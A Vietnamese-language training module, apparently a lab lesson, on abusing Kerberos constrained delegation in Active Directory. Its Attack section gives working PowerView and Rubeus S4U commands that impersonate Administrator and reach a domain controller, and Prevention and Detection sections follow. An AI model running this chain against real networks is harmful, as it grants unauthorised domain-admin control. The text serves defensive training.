






# Kerberos Constrained Delegation


## Description

`Kerberos Delegation` cho phép một ứng dụng truy cập các tài nguyên được host trên một server khác; ví dụ, thay vì cấp cho service account chạy web server quyền truy cập trực tiếp vào database, ta có thể cho phép tài khoản đó được delegate tới dịch vụ SQL server. Một khi user đăng nhập vào website, service account của web server sẽ yêu cầu truy cập dịch vụ SQL server thay mặt (on behalf of) user đó, cho phép user truy cập nội dung trong database mà họ đã được cấp phép, mà không cần gán bất kỳ quyền truy cập nào cho chính service account của web server.

Ta có thể cấu hình ba loại delegation trong Active Directory:

- `Unconstrained Delegation` (nới lỏng/rộng rãi nhất)
- `Constrained Delegation`
- `Resource-based Delegation`

Biết và hiểu rằng `any` (bất kỳ) loại delegation nào cũng là một rủi ro bảo mật tiềm tàng là điều tối quan trọng, và ta nên tránh nó trừ khi thật sự cần thiết.

Đúng như tên gọi, `unconstrained delegation` là loại nới lỏng nhất, cho phép một tài khoản delegate tới bất kỳ service nào. Trong `constrained delegation`, một tài khoản user sẽ có các thuộc tính được cấu hình để chỉ định (các) service mà nó có thể delegate. Đối với `resource-based delegation`, cấu hình nằm bên trong computer object nơi delegation xảy ra. Trong trường hợp đó, computer được cấu hình theo kiểu `I trust only this/these accounts` (Tôi chỉ tin tưởng tài khoản này/những tài khoản này). Hiếm khi thấy `Resource-based delegation` được một Administrator cấu hình trong môi trường production (kẻ tấn công thường lạm dụng nó để xâm nhập thiết bị). Tuy nhiên, `Unconstrained` và `Constrained` delegation thì thường gặp trong môi trường production.

---

## Attack

Ta sẽ chỉ minh hoạ việc lạm dụng `constrained delegation`; khi một tài khoản được tin cậy để delegate, tài khoản đó gửi một yêu cầu tới `KDC` nói rằng, "Hãy cấp cho tôi một Kerberos ticket cho user YYYY vì tôi được tin cậy để delegate user này tới service ZZZZ", và một Kerberos ticket được sinh ra cho user YYYY (mà không cần cung cấp mật khẩu của user YYYY). Cũng có thể delegate tới một service khác, ngay cả khi nó không được cấu hình trong thuộc tính của user. Ví dụ, nếu ta được tin cậy để delegate cho `LDAP`, ta có thể thực hiện protocol transition và được tin cậy cho bất kỳ service nào khác như `CIFS` hoặc `HTTP`.

Để minh hoạ cuộc tấn công, ta giả định rằng user `web_service` được tin cậy để delegate và đã bị xâm nhập. Mật khẩu của tài khoản này là `Slavi123`. Để bắt đầu, ta sẽ dùng hàm `Get-NetUser` từ [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) để liệt kê các tài khoản user được tin cậy cho constrained delegation trong domain:

<div class="card bg-light">
    <div class="card-body">
        <p class="mb-0">Lưu ý: Trong suốt bài tập, vui lòng dùng <code>PowerView-main.ps1</code> nằm tại <code>C:\Users\bob\Downloads</code> khi liệt kê (enumerate) với tham số <code>-TrustedToAuth</code>.</p>
    </div>
</div>

```powershell-session
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth

logoncount                    : 23
badpasswordtime               : 12/31/1601 4:00:00 PM
distinguishedname             : CN=web service,CN=Users,DC=eagle,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : web service
lastlogontimestamp            : 10/13/2022 2:12:22 PM
userprincipalname             : webservice@eagle.local
name                          : web service
objectsid                     : S-1-5-21-1518138621-4282902758-752445584-2110
samaccountname                : webservice
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 10/13/2022 9:53:09 PM
instancetype                  : 4
usncreated                    : 135866
objectguid                    : b89f0cea-4c1a-4e92-ac42-f70b5ec432ff
lastlogoff                    : 1/1/1600 12:00:00 AM
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1,
                                http/DC1.eagle.local/EAGLE...}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=eagle,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
givenname                     : web service
lastlogon                     : 10/14/2022 2:31:39 PM
badpwdcount                   : 0
cn                            : web service
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/13/2022 8:32:35 PM
primarygroupid                : 513
pwdlastset                    : 10/13/2022 10:36:04 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 143463
```



Ta có thể thấy user `web_service` được cấu hình để delegate dịch vụ HTTP tới Domain Controller `DC1`. Dịch vụ HTTP cung cấp khả năng thực thi `PowerShell Remoting`. Do đó, bất kỳ kẻ tấn công nào giành được quyền kiểm soát `web_service` đều có thể yêu cầu một Kerberos ticket cho bất kỳ user nào trong Active Directory và dùng nó để kết nối tới `DC1` qua `PowerShell Remoting`.

Trước khi yêu cầu một ticket bằng `Rubeus` (công cụ này mong đợi một password hash thay vì cleartext cho tham số `/rc4` được dùng sau đó), ta cần dùng nó để chuyển mật khẩu dạng plaintext `Slavi123` thành `NTLM` hash tương ứng:

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```



Sau đó, ta sẽ dùng `Rubeus` để lấy một ticket cho tài khoản `Administrator`:

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```



Để xác nhận rằng `Rubeus` đã tiêm (inject) ticket vào session hiện tại, ta có thể dùng lệnh `klist`:

```powershell-session
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```



Với ticket đã có sẵn, ta có thể kết nối tới Domain Controller trong khi mạo danh (impersonate) tài khoản `Administrator`:

```powershell-session
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```



Nếu bước cuối thất bại (ta có thể cần làm `klist purge`, lấy ticket mới, và thử lại bằng cách khởi động lại máy). Ta cũng có thể yêu cầu ticket cho nhiều service bằng tham số `/altservice`, chẳng hạn như `LDAP`, `CFIS`, `time`, và `host`.

---

## Prevention

May mắn thay, khi thiết kế Kerberos Delegation, Microsoft đã triển khai một số cơ chế bảo vệ; tuy nhiên, họ không bật chúng mặc định cho bất kỳ tài khoản user nào. Có hai cách trực tiếp để ngăn một ticket được phát hành cho một user thông qua delegation:

- Cấu hình thuộc tính `Account is sensitive and cannot be delegated` cho tất cả user có quyền cao.
- Thêm các user có quyền cao vào nhóm `Protected Users`: tư cách thành viên này tự động áp dụng cơ chế bảo vệ đã nêu ở trên (tuy nhiên, không khuyến nghị dùng `Protected Users` khi chưa hiểu rõ các hệ quả tiềm ẩn của nó).

Ta nên coi bất kỳ tài khoản nào được cấu hình cho delegation là cực kỳ có quyền cao, bất kể quyền thực tế của nó (chẳng hạn chỉ là một Domain user). Mật khẩu an toàn về mặt mật mã là bắt buộc, vì ta không muốn `Kerberoasting` trao cho kẻ tấn công một tài khoản có quyền delegation.

---

## Detection

Tương quan (correlate) hành vi của user là kỹ thuật tốt nhất để phát hiện việc lạm dụng `constrained delegation`. Giả sử ta biết vị trí và thời điểm mà một user thường xuyên dùng để đăng nhập. Khi đó, sẽ dễ dàng cảnh báo (alert) về các hành vi (đáng ngờ) khác—ví dụ, hãy xét tài khoản 'Administrator' trong cuộc tấn công mô tả ở trên. Nếu một tổ chức trưởng thành sử dụng Privileged Access Workstations (PAWs), họ nên cảnh giác với bất kỳ user có quyền cao nào không xác thực từ những máy đó, chủ động giám sát các event có ID `4624` (logon thành công).

Trong một số trường hợp, một lần logon thành công bằng ticket được delegate sẽ chứa thông tin về bên phát hành ticket dưới thuộc tính `Transited Services` trong event log. Thuộc tính này thường được điền nếu lần logon là kết quả của một tiến trình logon `S4U` (`Service For User`).

S4U là một phần mở rộng (extension) của Microsoft cho giao thức Kerberos, cho phép một application service lấy một Kerberos service ticket thay mặt cho một user; nếu nhớ lại luồng tấn công khi dùng `Rubeus`, ta đã chỉ định phần mở rộng `S4U` này. Dưới đây là một ví dụ event logon bằng cách dùng web service để sinh ra một ticket cho user Administrator, sau đó được dùng để kết nối tới Domain Controller (đúng như đường tấn công ở trên):


